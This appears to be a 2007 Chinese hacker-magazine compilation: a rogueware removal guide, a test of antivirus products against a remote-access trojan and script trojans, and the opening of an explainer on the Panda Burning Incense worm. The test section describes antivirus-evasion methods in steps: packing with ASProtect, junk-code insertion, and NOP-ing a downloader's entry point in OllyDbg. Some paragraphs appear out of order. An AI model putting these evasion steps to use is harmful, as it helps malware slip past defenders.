**恶意软件清理：** 可以清理常见的流氓软件，与 360 安全卫士相比感觉扫描速度稍微慢些，可能是扫描得比较认真缘故吧。与其他软件不同的是有一个“使用强制清理模式”，它会关闭资源管理器后再对流氓软件进行清理，使用此功能可以将部分顽固的流氓软件完全清除，又可保护系统不崩溃。

**可疑文件扫描：** 可以详细扫描系统中可疑的流氓软件文件，扫描到可疑文件后可单击右键定位到文件或将文件删除，如图 10。对于清理卸载流氓软件后的残余文件具有很好的效果。

图10

### 6. 超级兔子

超级兔子有多种版本，建议到兔子的主页 http://www.pctutu.com/soft/download.html 去下载免安装版，如图11。

图11

图12

下载后双击 `runme.bat` 进行初始化，然后双击 `srgui.exe` 就可以启动超级兔子了，如图12。双击“超级兔子清理王”等，片刻后就会启动了，如图13。在需要卸载的插件上打上勾，按“下一步”即可卸载已经安装的插件，如卸载不成功，可重启系统到安全模式下去卸载。

## 六、手工清除流氓软件

为了对抗各类清除工具，流氓软件的更新很快，因此仅靠以上介绍的工具来清除流氓软件是不行的。另外，某些流氓软件在使用工具清除后还容易留下垃圾，因此菜鸟们最好再多学一些手工清除流氓软件的方法。由于绝大多数流氓软件都是通过 IE 进行捆绑，所以我们可以通过 IE 中插件管理来定位流氓软件的位置。

第一步：打开“IE”→“工具”→“Internet 选项”→“程序”→“管理加载项”，可以看到 IE 列出的很多插件，如图14。

图13

图14

我们要做的只是观察插件的发布者，如果看到发布者前面有个“未验证”的话，建议别管它起什么作用，先禁用再说。然后把不是 Microsoft（微软）出的插件都禁用。不用担心关闭这些插件会不会影响到正常使用，例如播放网页中 Flash 的插件（Shockwave Flash Object）被禁用后，发现 Flash 不能播放了，再回到这个界面找“发布者未知”的插件，重新启用就行了。

第二步：记录下刚才被怀疑为流氓软件的插件（`.dll` 文件）的名字，如图15。我刚刚安装的“卡卡上网安全助手”，可以看到文件为 `kakatool.dll`。使用卡卡上网助手的进程管理工具查找模块，在查找模块中输入 `kakatool.dll`，如图16。可以看到 `kakatool.dll` 已经被加载到 IE 进程中了，如果这是一个恶意软件的文件，我们可以把它删除或者改名，使它在下一次 IE 启动时不再运行。当然也可通过搜索的方式查找。一般来说，大部分流氓软件都会安装到 `x:\Program Files\` 或 `Windows` 目录下。找到流氓软件安装的文件夹，先尝试删除。大多数情况下是不能直接删除的，系统会跳出窗口提示“该文件正在被使用”，因为流氓软件已经将其自己加载到 IE 进程或者系统进程中了。

以 `kakatool.dll` 为例，由于 `kakatool.dll` 加载到 IE 进程中，可直接将 IE 进程结束，再删除 `kakatool.dll` 就没问题了。

说明我们已经很干净地清除了流氓软件。如果有的键值不能删除的话，建议使用冰刃的注册表删除功能来进行删除。现在重新启动电脑看看吧，怎么样？世界干净了吧！

图15

## 七、预防流氓软件再入侵

流氓软件实在是很让人讨厌，而且很多时候普通用户是在完全不知道的情况下被莫名其妙地安装上的。其实只要做好准备工作，预防大部分流氓软件还是可以做到的。

### 1．及时打上 IE 的补丁

现在有很多网站为了提高自己的访问量，在网站上使用黑客手段加入了木马。倘若我们不小心浏览了该网站（尤其是色情和游戏类的小网站），那些网页木马就会让你的电脑“自动”安装好它们指定的流氓软件。……但是只需要将 IE 补丁打全了，即使浏览这些网站也不会那么容易中招。

图16

### 2．使用流氓软件免疫工具给 IE 打上“预防针”

不知道大家有没有过这样的经历：浏览一个网页速度暴慢，IE 都快死掉了也退不出去，过了好半天弹出一个对话框：“您访问的网站需要安装 XX 插件”……通过流氓软件免疫工具我们可以轻易地“伪造”这些信息。我们以 Upiea 这款工具为例（其实瑞星卡卡、360 安全卫士等工具都自带了这个功能）……

对于加载到系统进程中的 `dll` 文件就不能直接结束进程了，否则系统可能会崩溃。我们可以使用冰刃（IceSword）对这些项目进行操作。打开冰刃后选择进程，找到加载的模块，右键选择“模块信息”，在模块里找到你刚才无法删除的 `dll` 文件，找到需要卸载的模块后点“卸除”或“强制解除”就可以将 `dll` 文件卸载后再删除了，如图17。

图17

图18

需要注意的是，流氓软件有时候会同时使用两个或以上的 `dll` 文件对 IE 进行捆绑，所以要把刚才的步骤重复几次，一个一个地解除 `dll` 文件对 IE 的捆绑。

最后在“开始”→“运行”中输入 `regedit` 打开注册表编辑器，搜索注册表中 `dll` 插件的键值，找到一处就点右键删除注册键值。然后按 `F3` 继续搜索，直到跳出窗口说搜索完毕了。

### 3．屏蔽掉恶意网站

有的时候我们使尽了十八般兵器，杀毒软件和流氓软件专用清理工具全都用上了，也没能搞定未知的“流氓”，电脑还是不停地会弹出黄色网站广告或者别的东西，那还有没有别的办法来搞定它们呢？办法当然是有的！我们还可以利用 Hosts 文件将这些网站屏蔽掉……

弹出一个 IE 窗口，也会因为这些网站被屏蔽了而显示出一个“找不到服务器”的错误框，至少它不会影响我们的形象吧！

在 `C:\windows\system32\drivers\etc` 目录下有一个文件名为 `hosts` 的文件，它没有扩展名，我们可以使用记事本来打开它。打开后可以看到一些英文注释，紧接着是类似以下格式的内容：

`127.0.0.1 localhost`

……计算机在访问网站之前，会先在这个文件里查询有没有某个网站的 IP 映射，如果找到的话就按照这个 IP 地址去访问。

如果我们在这个文件的末尾处按照上边的格式写入 `127.0.0.1 www.hackerxfiles.net` 的话，那么当我们打开黑客 X 档案的网站时，就会提示找不到网页了。使用这种方法，把那些网址都添加进去就可以屏蔽掉那些网站了。

### 4．安装软件要当心

从网上下载回来的工具很多都捆绑有各种各样的流氓软件，这是流氓软件为了推广自己，给那些软件作者们推广费之后的“成果”。往往在“下一步”→“下一步”的傻瓜化安装中，你就会忽视掉那些默认打上勾的流氓软件。

所以建议刚学会安装软件的朋友，在每一次单击“下一步”之前都要仔细看一下软件的提示，这样你可以避免很多误装。

当然，还有一些小网站上提供的工具清一色都捆绑有流氓软件和木马，因此建议大家别去这些小网站下载软件，一定要找那种大的、值得信任的网站来获取自己需要的工具，否则可能就会因小失大了。

### 5．死守最后一道关

如果我们的系统盘是 NTFS 格式的，还可以使用 NTFS 权限抵御部分流氓软件，当然我们必须知道此流氓软件的文件夹（但对于以 `dll` 插入方式安装的流氓软件无效），方法如下：

- 在流氓软件所在位置创建空文件夹；
- 给空文件夹重命名为流氓软件的名字；
- 在创建的空文件夹上，右键→属性→安全→删除所有用户。

**该方法的优点是：**

- 可以阻止现有各种流氓软件，也包括新出现的流氓软件；
- 不需要使用杀毒工具，就可以轻松抵御各种流氓软件；
- 不用再为捆绑安装的流氓软件头疼。

例如雅虎助手的安装目录为 `C:\Program Files\Yahoo!`，我们利用上述方法对 Yahoo! 助手进行权限设置，以后 Yahoo! 就再也不会安装成功了。

## 八、流氓软件常见问题解决方案

### 1．卸载某些流氓软件后，电脑无法上网

这一般是系统的 Winsock LSP 被破坏的缘故，使用 360 安全卫士上的“修复”→“修复 LSP 连接”就可以恢复。

### 2．免疫流氓软件后，网上银行无法使用

这是我们在免疫的过程中不小心将网上银行必须使用的保密插件也给免疫掉了。IE 无法加载这些插件的话，银行会认为你的系统不安全，不允许输入卡号和密码。使用瑞星卡卡的插件免疫功能，进入“银行”选项找找有没有你心爱的网上银行，看其状态如果是“已免疫”的话，就把它选中，“取消免疫”吧。关闭所有 IE，重新打开网上银行看看，是不是又可以输入卡号和密码了呢？

有些在线电影不可以观看、网络相册上传不了图片、QQ 空间无法使用等，都跟这些插件免疫有关。尽量熟悉需要使用的插件名称，在躲避流氓软件的同时，也别影响自己的正常使用才是对的！

### 3．360 安全卫士提示清理成功了，可是再次扫描恶意软件依然存在

360 安全卫士有时候就这样，需要反复清理几遍才能够彻底清除。实在不爽的话还可以换个工具，比如把各个流氓软件专杀工具结合着一起使用，总有一个能干掉你不喜欢的流氓软件。

### 4．Google 工具条那一类的软件需要清理吗？

其实那些工具条都有一定的使用价值，比如屏蔽一些广告、方便搜索，安装某些 EXE 工具条浏览自己的网站还能提升网站的 Alexa 排名等。但是有些朋友的电脑里安装了十几个工具条的时候就不行了，过多的工具条会使 IE 启动变慢，还会影响系统速度，甚至使 IE 浏览网页不正常。如果你不是特别需要的话，还是建议全部都干掉吧！

## 九、总结

尽管流氓软件很烦人，有时甚至比病毒、木马的保护措施都先进，而且好多杀毒软件和防火墙也都不容易应对。可是如果菜鸟们能够通过这篇文章对流氓软件有一定的了解的话，相信大家以后在见到流氓软件时就不会惊慌了。作为小黑来说，在没有工具的情况下，能够手工解决掉电脑故障才是被 MM 们追捧的资本！删除流氓软件本来就跟查杀木马一样，是小黑必备的一个基本技能。希望在新的一年里，大家都能够远离流氓软件，安静舒服地在网上冲浪！

> （文章中涉及到的几种流氓软件专杀工具已收录到光盘中）

## 杀毒软件大阅兵

各路杀毒软件厂商纷纷推出自家的 2007 新款杀毒软件也有 2 个月了，那么这些新年涌现出来的“2007 版”杀毒软件到底功效如何呢？于是笔者做了如下测试！

## 一、测试准备

测试目的：通过笔者片面的简单测试，为小菜认识当前流行杀毒软件做一个参考。

测试环境：Intel Celeron CPU 2.6GHz，512MB 内存，Windows 2000 专业版。

测试软件：在华军和天空软件下载的相关最新版杀毒软件（各厂家发布时间存在差异，病毒库日期可能略有差别）。

测试声明：本次测试不带攻击性，意在保证公平公正；测试前全部使用还原卡还原处理；笔者作为普通软件使用者未被厂商“关爱”。

- 使用 RAR（ZIP）对病毒木马进行二次压缩，测试杀毒软件对压缩包文件的查杀能力；
- 使用 ASProtect 这类加密壳加密木马文件，考查杀毒软件的杀毒功力；
- 使用花蝴蝶给木马加花处理，查看杀毒软件“去花杀毒”的能力。

评测的杀毒软件有：国产的金山 2007、江民 2007、瑞星 2007，国外的卡巴斯基和 NOD32。

## 二、传统木马查杀比较

我们知道，国内小菜们最喜欢的远程监控木马就是灰鸽子。各种各样的“专版”灰鸽子满天飞。各大杀毒软件也对这个随便乱飞的鸽子盯得紧紧的，如果是网上公开的版本，一定都会被纳入病毒库中。可是，现在小黑们免杀技术也不是吃素的，稍做手脚就能让一些杀毒软件变成睁眼瞎，这里试一试！

### 1. 金山毒霸 2007

首先我们配置好一个灰鸽子的木马，然后使用 WINRAR 进行一次压缩，得到 `myserver.rar`。觉得一次少了点，于是再用 WINRAR 压缩一次，得到二次压缩包 `myserver2.rar`。面对木马文件的 RAR 二次压缩，使用金山 2007 查毒，能够发现隐藏在 RAR 中的病毒，看起来表现不错（图1）。

图1说明：ASProtect 是一款加密壳。用它加密后的软件由于文件内部信息被打乱，通常杀毒软件难以辨认，因此常被用来对木马进行免杀处理。通过“File to protect”选择木马文件，再通过“File to save”指定输出路径，完成壳处理。

处理完成后会得到新的 `myserver.asprotect.exe`。运行后可见客户端上线（文中示例为便于演示，未开启自动删除等处理），见图2。

而这时金山毒霸监控虽开启，却几乎没有反应。使用右键快捷查杀对病毒文件进行检查，也无法查出有毒，说明其对加壳病毒仍有不足。再吹毛求疵，使用花蝴蝶最新版加花，如图4，被查杀！可见对于“去花查毒”，金山 2007 表现不俗！

### 2. 江民 2007

使用 RAR 二次压缩灰鸽子服务端后，江民 2007 可以查出病毒；而且能准确知道是灰鸽子木马（图5）！

使用 ASProtect 1.2 保护后，杀毒不出来（图6）！使用花蝴蝶最新版对木马进行免杀处理，然后使用江民 2007 查杀，如图7，效果不错（图7）！

### 3. 瑞星 2007

第一次和 RAR 过招，效果不错（图8）！再和 ASProtect 1.2 交手，结果可喜！可以查出前面两款杀毒软件查不出来的 ASProtect 1.2 加密木马（图9）！

面对花蝴蝶的加花攻势，瑞星势如破竹，轻而易举地就查出了藏身的灰鸽子木马（图10）！看来在第一局的较量中瑞星已经胜出！

### 4. 卡巴斯基

面对 RAR 的一次压缩，卡巴斯基丝毫不会懈怠，能非常具体地找出 RAR 中的 ZIP 包和其中病毒文件（图11）！对于来自 ASProtect 的挑战，卡巴表现出自己的王者风范，似乎在对 ASProtect 炫耀“你知道我在等你吗？”，如图12。

至于披上了花蝴蝶伪装的木马，卡巴大叔更是金刚怒目，一眼就揪出了乔装打扮的马儿（图13）！

### 5. NOD32

对于碰上二次压缩的 RAR 木马包，NOD32 在查杀方面表现得非常不错（图14）！正所谓祸不单行，直面 ASProtect 的悍马攻势，NOD32 全然无惧，准确报毒（图15）！花蝴蝶刚上阵，便被 NOD32 识别出来，看来对“去花查毒”，NOD32 也是有不错表现的（图16）！

面对 RAR 的“彩衣”、ASProtect 的“铁甲”、花蝴蝶的“盛装”，国产的瑞星 2007 表现非凡；而被视为洋货、被称为“舶来品”的卡巴和 NOD32 也表现不俗（表1）！

| 项目 | 金山2007 | 江民2007 | 瑞星2007 | 卡巴斯基 | NOD32 |
|---|---|---|---|---|---|
| RAR 二次压缩 | 查杀 | 查杀 | 查杀 | 查杀 | 查杀 |
| ASProtect 加壳 | 无法识别 | 无法识别 | 查杀 | 查杀 | 查杀 |
| 花蝴蝶加花 | 查杀 | 查杀 | 查杀 | 查杀 | 查杀 |

表1

看来在前两轮，国产的瑞星 2007 和国外的卡巴斯基、NOD32 要技高一筹，一起胜出！

## 三、脚本木马的挑衅

对于黑客们来说，最常接触的除了可执行的 exe 病毒木马，更多的就是当今脚本入侵中发挥了重大作用的脚本木马。

ASP 木马、PHP 木马等等在内的站长助手、蓝屏、海阳顶端、phpspy……对于专门用作网站的服务器来说，查杀脚本木马在网管的心目中有不可忽视的地位。那今天参与评测的杀毒软件们功力如何呢？

- **1. 金山 2007**  
  使用“校园内部专用脚本木马生成器”生成六个脚本木马，然后使用金山 2007 对加密的脚本木马查杀，结果基本无效（图17）！

- **2. 江民 2007**  
  和金山 2007 相仿，江民 2007 对付加密的脚本木马也基本无效（图18）！

- **3. 瑞星 2007**  
  前两员大将相继落马，不知面对变换莫测的加密后的脚本木马，瑞星的表现如何。经测试，结果让笔者喜出望外，因为效果令人非常满意！全部可以查杀，唯一剩下来的就是一句话木马（图19）！

- **4. 卡巴斯基**  
  对于脚本木马，卡巴斯基只能检测出一个 aspx 木马，看来对脚本木马的查杀还没引起卡巴大叔的重视（图20）！很可惜对于加密过的脚本木马基本没有查杀能力，这好像是这位王者的软肋（小编：卡巴扫描面对加密过的脚本木马确实没有反应，可是如果木马运行起来，就不一定了，作者测试的时候应该没想到这一点）！

- **5. NOD32**  
  对加密过的脚本木马完全无法识别，更谈不上查杀了！

## 主题乐园

用于测试的脚本木马，NOD32竟然一个都认不出来（图21）！


填充掉这个下载者开头的四句汇编代码，保存为xiaolong.exe，如图22！运行一下，下载者自动把我放在网上的一个小程序下载到机器上并运行了，如图23。


> 这样修改后能免杀成功的原因有两点：一是一般电脑中的文件数目众多，且一般的文件体积都比较大，杀毒软件一般只能检测程序的入口点；二是修改（NOP）了入口点的汇编代码后，程序一旦被运行，就会按修改后的指令继续执行到正常代码位置，因此程序仍可正常运行（但也可能因破坏文件头而无法继续运行）。


对于前面的四款软件，相较而言，卡巴大叔稍胜一筹；而对机械刚体木马，NOD32仿佛盲人摸象般，毫无查杀能力；而国产的瑞星2007比起来，卡巴大叔又稍微逊色一点（表2）。

| 查杀数量（总7个） | 金山2007 | 江民2007 | 瑞星2007 | 卡巴斯基 | NOD32 |
|---|---:|---:|---:|---:|---:|
| 数量 | 0 | 0 | 6 | 1 | 0 |

第二轮，勿谓寡言，国产瑞星2007完胜！

现在计数一下2007版本杀毒软件们的查杀能力！

### 1. 金山2007

金山2007已经不认识修改入口代码的下载者了，如图24。


## 四、狞笑！来自变种病毒

常逛一些电脑安全站点，打开首页，映入眼帘的便是某某变种病毒的公告了！所谓的变种病毒，是在原始病毒的基础上，稍加修改处理，又再次大面积传播，被杀毒软件公司截获。为这样的病毒重新定义一个名称显然没有必要，因此，杀毒软件公司称它们为原始病毒的变种。

测试方式：对“特南克斯下载者”进行简单的手工免杀，然后测试杀毒软件对病毒变种的查杀能力。我们先来简单免杀一下我们的测试木马！打开OllyDBG（简称OD），OD自动停在了程序的入口点。选中头四句汇编代码，右键选择“Binary”，再选中“Fill with Nops”，直接用NOP……


- 2. 江民2007

查杀结果没有让我们失望，成功查出病毒（图25）！

- 3. 瑞星2007

一如既往的慧眼识“毒”（图26）！


- 4. 卡巴斯基

不愧是享誉盛名的杀毒软件，对于未知病毒的查杀能力可见一斑！不仅能查出病毒，而且能正确知道是下载者的木马后门！看来这款舶来品，品质值得信赖（图27）！


- 5. NOD32

看来NOD已经不认得木马了（图28）！


国产的瑞星2007秉承一贯的优质作风，为国人脸上增光！江民2007也表现出了自己的查杀能力！而笔者比较喜欢的金山2007却败下阵来，看来“测试远未结束，金山以后还需努力”。而作为国外的杀毒软件，NOD32面对新的“考题”，发挥失意！而卡巴斯基临场发挥较佳（表3）！

|  | 金山2007 | 江民2007 | 瑞星2007 | 卡巴斯基 | NOD32 |
|---|---|---|---|---|---|
| 未知病毒 | 无法识别 | 查杀 | 查杀 | 查杀 | 无法识别 |

表3

国产的瑞星、江民和国外的卡巴斯基，三者并列胜出！

> 瑞星不愧是国产杀毒软件中的精品，称作国产杀毒软件的老大毫不为过！瑞星2007更是“精简传承经典”——界面上朴实无华，杀毒能力上却毫不含糊，处处闪耀着人文主义的关怀；而同样是杀毒软件出身的金山……

> 纵观2007年推出的新版本杀毒软件系列，虽然国内执行文件查杀能力有进步，但对未知样本变异病毒的查杀测试仍不尽如人意（对样本查杀率约为0）。当然我们不能轻率责备。面对新推出的国产杀毒软件在查杀能力上的提高，我们应看到：老牌杀毒软件在查杀方面有一定优势，但是既不抹煞查杀能力的普遍提升，也给我们带来一些思考！相信在接下来的日子里，国产杀软将会更上一层楼！

## 五、性能消耗大比拼

一些杀毒软件，疗效不错！可惜杀起毒来“虎虎的”，CPU不知不觉就过百了！

遇到这样的杀毒软件，电脑配置高的有钱人也许不在乎，像我们这些穷酸书生还用着奔二CPU的伙计怎么办呀？难道电脑可怜的资源就全部交给杀毒软件占用，我们啥也不能干了吗？这一轮比拼是要看看这些杀毒软件在全力工作的时候，谁最“温柔”。

测试方式：使用各家软件进行全盘扫描，然后使用“Process Explorer”对系统资源的占用进行监控，最后得出对比结果！操作方法如图29所示，找到相关杀毒软件的扫描主程序，然后右键，选择属性！


> “Process Explorer”是最好的进程监视工具，是曾经为微软提供技术支持的sysinternals.com的作品，其功能在同类软件中无出其右。它不仅可以监视、暂停、终止进程，还可以查看进程调用的DLL文件；遇到不熟悉的进程还可以直接通过Google或MSN搜索。查看CPU及内存使用情况、对进程进行调试。Process Explorer与Process Viewer、Norton Process Viewer、国产的IceSword、Windows进程管理器并称“进程监视五大至尊”，是木马和防病毒、查杀木马的好帮手。同时对软件系统资源占用监控功能，数据准确无误，故笔者下面将使用此软件来测试软件对系统的耗能！

从表4可以看出，在CPU占用方面，国产的瑞星2007是最低的！而在虚拟内存的使用上，江民和NOD32表现不俗！至于输入输出的操作性（I/O），国产的江民、瑞星和NOD32不相上下！

总体而言，几款杀毒软件在进行全盘扫描时，都可以正常聊天上网。使用瑞星和NOD32时，甚至可以正常运行大型网络应用。

|  | 金山2007 | 江民2007 | 瑞星2007 | 卡巴斯基 | NOD32 |
|---|---:|---:|---:|---:|---:|
| CPU使用(%) | 43 | 43 | 10 | 79 | 21 |
| 虚拟内存大小(MB) | 66 | 17 | 66 | 54 | 17 |
| I/O字节(MB) | 12 | 1 | 2 | 4.2 | 0.5 |

表4

> 对于木马杀客，则是直接删除木马杀客的所有版本，禁止下载！

因为华军软件园已经不提供木马杀客的下载了，所以笔者只好到天空软件园去淘宝！木马杀客也推出了杀客2007，界面上部分模仿瑞星2007，可是随便拿了个被其它杀毒软件视为眼中钉的样本来测试，木马杀客竟然没有报毒（图36）！


再抽出2006年的阿拉QQ大盗国庆节版（10.1）来测试杀客的查杀能力，结果令人太跌眼镜！同样不报毒（图37）！笔者突然怀疑杀客存在的意义了！它仿佛对木马是一位十足的看客，而非一位杀客！


而卡巴则因为“块头”不小，资源耗费上也相较大！所以，这一轮，国产的江民、瑞星和国外的NOD32胜出！

## 六、不是结尾

2007，随着几大杀毒软件巨头的“躁动”，属于其他杀软的2007之卷也徐徐到来！


### 1. 木马杀客

不久前刚刚传出木马杀客依靠文件名来查杀病毒，当笔者再次到华军软件园搜索“木马杀客”四个字时，居然提示“本站有可能没有收集你查找的软件”，看来此软件已经被华军给封杀了！


> 华军软件园是一家对网络嗅觉非常敏感的知名下载门户网站。从去年的迅雷链接，到现在出现的“木马杀客”频爆冷料，华军都在相关页面表明了自己的立场：对迅雷，是删除相关下载链接；而对逊雷，是推荐使用FlashGet下载。


最后笔者拿来“特南克斯下载者”，木马杀客终于可以报毒了！为了验证传言中的“文件名查毒”是否属实，笔者将“特南克斯下载者.exe”改为“xiaolong.exe”同样可以被查杀，看来杀客并不是流传的那样，简单地按照文件名来查杀！不过木马杀客的查杀能力还是让人非常失望，随便拿出的三种木马病毒，结果仅仅能查出一例！实在是使人心寒呀！

### 2. 木马克星

笔者首先使用“宽星”来查杀花蝴蝶，结果居然提示“文件名字符和木马名字重复，但是木马”。难道“木马克星”也想做“杀客”？第二，用名字来判断是否木马？想想，让人不寒而栗（图38）！而面对RAR二次压缩的木马基本无法查杀，如图39。然后，笔者用了一款项狐下载者3.1（破杀版）来测试木马克星的查杀能力，结果根本不报毒（图40）！

若是在2006年上半年就被推出，且一致被几大杀毒软件捉毒和查杀的！木马克星对它完全不认识，看来下载包才2MB的木马克星的病毒库还是值得“商榷”的！

对清道夫的考验到此，清道夫能否做到一夫当关，“守城”固若金汤呢？将木马使用RAR进行二次压缩后，木马清道夫扫描时就毫无反应了，如图42。


对于加过花指令的阿拉QQ大盗，清道夫又一次失去了反应，如图43。


最后，木马克星承诺的监视网络连接、监控发信程序则是十足的噱头！笔者用一款阿拉QQ大盗来测试发信，结果邮箱非常准确地收到了信，克星却反应迟钝，无法报警！不过“木马克星”能够识别出有程序在监视键盘的输入，这或多或少给了喜爱克星的朋友们一丝安慰，如图41。

整体上来说，木马克星病毒库太小，对流行病毒的查杀能力大打折扣！软件监控是花架子，而对键盘监控型木马的识别能力还比较让人满意！总结：木马克星，小而无用！

### 3. 木马清道夫

作为一个获奖甚众的共享软件，小龙对它也是爱护有加！曾一度封其为装机“御用”杀软！可是面对木马病毒风起云涌，连引以为傲的实时监控和内存监控也失效了！说的也是，既然文件查毒时不能报毒，内存监控也就只能形同虚设了！

> 木马清道夫，让人失望！

看来2007年国产共享软件还有很多路要走。中国的共享软件为何持续低迷，不如国外？一部分原因就是自身品质上不去！中国共享软件数量世界第一，但是共享软件创造的价值却不如人意！面对2007，国产共享软件还需好好修炼内功。正所谓酒好不怕巷子深（以上测试所用软件，均采用两大下载站下载量前十位的软件，所有测试针对软件，而不针对个人），笔者衷心希望2007各大共享软件制作者能真的静下心来，推出“上帝们”真正好的产品！

## 主题乐园

> 杀毒软件还有很多路要走！（共享软件一路走好！）

## 小编点评

菜鸟们初入“黑道”，最怕的事就是中病毒。可是偏偏又总是会中病毒，于是就会问老鸟。老鸟们会回答说，你装个好的杀毒软件吧，这样病毒就都被杀掉了。菜鸟接着问：什么样的杀毒软件才好呢？于是小编就策划了这个专题。应该说，作者的测试还是稍显粗糙，所选择的病毒样本数量相对较小，测试的广度和深度都不够大，还不够专业。所做的结论也仅代表作者本人的观点。但是作为普通用户的角度来体验2007这新的一年里，各大杀毒软件为我们带来的服务、基本功能、免杀率等，在某些方面为大家提供一个杀毒软件选择的参考标准。文章有不足之处，还望大家指正。


## 熊猫烧香全面大揭秘


从2006年12月到现在，网上人人谈熊猫色变，一只体态可掬的熊猫、举着三根香的形象除了让人害怕之外，不少网友还将它制作成各种各样的图片、Flash、QQ表情互相调侃。更有网友为该病毒作诗三百首、广告词无数条，甚至连周杰伦的新歌《菊花台》也有了熊猫烧香的版本。到底什么是熊猫烧香病毒，它的危害到底有多大，遇到这个病毒应该如何处理，如何防止自己的电脑“激愤地烧国宝君”，让我们一起来看看吧！

一时间饱受“熊猫”骚扰之苦的网民们欢欣雀跃，奔走相告，似乎可以松一口气了。可是没过多久，据说是在“熊猫烧香”的基础上演变而来的“电眼间谍”和“金猪报喜”又让网民哭笑不得，再一次陷入了新的恐慌当中。“电眼间谍”和“金猪报喜”其实和熊猫烧香相比并没有太根本的区别，只是把用户被感染的文件图标改成了一个人头像或者是金猪，据说电眼间谍甚至还有运行在手机上的病毒版本。

## 一、认识熊猫烧香

### 1．熊猫烧香的简介

数月前，曾经有另一个让人闻风丧胆的蠕虫病毒名为“威金”（Win32/Viking），它的主要症状就是会感染用户的所有exe文件，并且在局域网里进行传播。在《黑客X档案》的“黑客发报”栏目中曾经对此新闻进行过报道。后来，这个病毒的某一个变种在感染exe文件后，会将被感染的图标变成一只举着三根香的熊猫图样，如图1。根据这个特性，人们把这一威金变种称为“熊猫烧香”病毒。它还有一些名字，例如尼姆亚（Worm.Nimaya）、武汉男生（Whboy）等。而这个本身就是由其它病毒演变而来的熊猫烧香本身，还在不停地升级和变种着。


> 小知识：蠕虫（Worm）和病毒（Virus）的区别  
> 通常，病毒和蠕虫完全是两个独立的概念。那时的病毒就是指具有破坏性的恶意程序，一般有四大特征：隐蔽性、潜伏性、破坏性、传染性；而蠕虫则是在网络普及之后才出现的概念。在网络普及后，出现了一些通过网络进行传播的病毒，但是这些病毒并不做特别大的破坏动作，而是一个传十、十传百，计算机专家们称这种病毒为蠕虫。而现在，病毒具备的传染性很强，蠕虫也开始具备破坏性，甚至带有木马的性质，它们之间的界线已经越来越模糊了。

### 2．熊猫烧香的作者内幕

也有人说，在熊猫烧香的硝烟里，有一个杀毒软件厂商表现卓越，那就是“超级巡警”。据说在熊猫烧香刚开始出现的时候，各大杀毒软件厂商还没有反应，“超级巡警”就第一个截获到了该病毒并且推出了“专杀工具”，随后，熊猫烧香变种一次，超级巡警也更新一次，渐渐使得这个好用的专杀工具在网民中流传开来，具有了不错的口碑。

可是令人意外的是，没过多久，在天涯社区就有人发现在“超级巡警”的熊猫烧香专杀工具“宣传”期间，始终有一个来自东北哈尔滨的IP地址在百度贴吧、天涯社区、各大安全论坛恶意贬低其它杀毒软件的专杀工具，并推荐“超级巡警”。根据熊猫烧香最直接的得益人来看，此时又有人猜测，这个来自哈尔滨的IP地址是安全焦点的一个著名“黑客”——killer，也就是超级巡警的作者。

当然，这些都还只是谣传，并没有确凿的证据能够证实病毒作者到底是谁；临近截稿时，网上还流传出了一个令人啼笑皆非的“熊猫烧香作者自白书”，称制作此病毒皆因到深圳找工作不顺利而愤怒地发泄。可惜这个自白书很快就被其他计算机反病毒专家给揭破，因为从时间上和一些情况来看，这个自白书里的描述显然是不符合实际的。

### 3．熊猫烧香的危害

从2006年12月起，熊猫烧香就已经泛滥成灾了，经历了2个多月的时间，它现在依然具有极为强大的生命力，这在蠕虫病毒历史上都是罕见的。那么这只举着三根香的小熊猫到底进入过多少人的电脑呢？

> 2006年12月28日，瑞星动力报道《“熊猫烧香”病毒来袭对企业局域网破坏深》；  
> 2007年01月16日，搜狐报道《多家网站被植“熊猫烧香”病毒》，文中称据网监部门监测，国内著名大型IT门户及专业网站Alexa排名均在全球前300之内；  
> 2007年01月30日，TOM网报道《熊猫烧香病毒致百万网民受害 利益集团操控？》，提到受此病毒危害最为严重的是一些网吧业主，近千台电脑集体瘫痪，直接损失30多万元；  
> 2007年02月，CCTV《每周质量报告》连续数次播放病毒肆虐的消息，部分网吧老板表示“系统显示，参与调查的网民中，有超过56%的比例称自己中过该病毒”；  
> 2007年2月5日，金山毒霸报道《熊猫烧香变种再度来袭 反病毒专家发布变种（Worm.NiBoy.cv）》，称大规模爆发期间变种传播性和感染性是已有熊猫烧香变种的4.0倍。

在该病毒发作势头最猛的1月份，由于台湾海底光缆的意外断裂，大部分国外杀毒软件均不能及时升级，导致受害网民手足无措。

部分稍微有些经验的网民中毒后，试图重新安装操作系统来解决问题，结果发现只要一运行其它磁盘的exe文件，可怕的熊猫就再一次铺满了屏幕，最后不得不狠心把整个硬盘格式化，丢失了非常多相当重要的文件和数据，这样的无形损失是无可估量的。

### 4．熊猫烧香的发展

在熊猫烧香病毒作者宣称“停止更新”后，有网民发帖《熊猫启示录——风波过后的反思》，文中对熊猫本身、普通用户、杀毒软件厂商都进行了一一针见血、通透到位的分析和反省。引用原文的话：

> 在这个“金钱至上”的年代，熊猫确实是一个非常另类的病毒。因为它的最终目的不是为得到经济利益。通过“熊猫”是可以暴露出黑客们究竟掌握着怎样的技术而生存的年代？或者是作者为了平衡某些意图的表示敬意？但是从目前我们能看到的信息来看，作者的目的，是对普通用户的一次警醒，更是对安全厂商的一次教训！从技术上来说该病毒并没有什么创新之处，但是它却能轻易糅合并发出来木马甚至是劫持软件的长处；这样一个没有先进技术却拥有成熟技术的病毒综合体来到我们面前……

或许现在的新变种，什么金猪、阿谀的已经不是原作者在更新了，但是这并不意味着“杀猫”大战就可以停止。网上遍地皆是“熊猫烧香核心源代码”，任何一个稍微有点编程基础的人参考一下或许就能做出一个新的变种。对于我们普通用户来说，在这场杀猫大战中最应该汲取到的教训，就是如何切实提高自己的安全意识，成为不中毒的那50%中的一份子。

## 二、熊猫烧香中毒症状

介绍完熊猫的历史，或许很多人会比较好奇熊猫烧香到底是什么样的表现。最简单的例子，如果你的电脑里出现如图2类似的情况，就一定是中毒了。熊猫烧香病毒除了感染exe文件外，还会把com、pif、src为后缀的文件也感染一遍。


图2

但是，也有一些变种是不修改图标的，也有的变种病毒修改的图标并非是广为人知的熊猫，所以我们还需要一定的其它判断依据。

- 1. 杀毒软件与防火墙自动关闭

因为熊猫烧香病毒感染计算机后，第一件事就是结束杀毒软件和防火墙的进程。当你发现自己的杀毒软件的实时监控无法打开、防火墙莫名关闭时，就应该警惕了。

- 2. CPU占用率100%

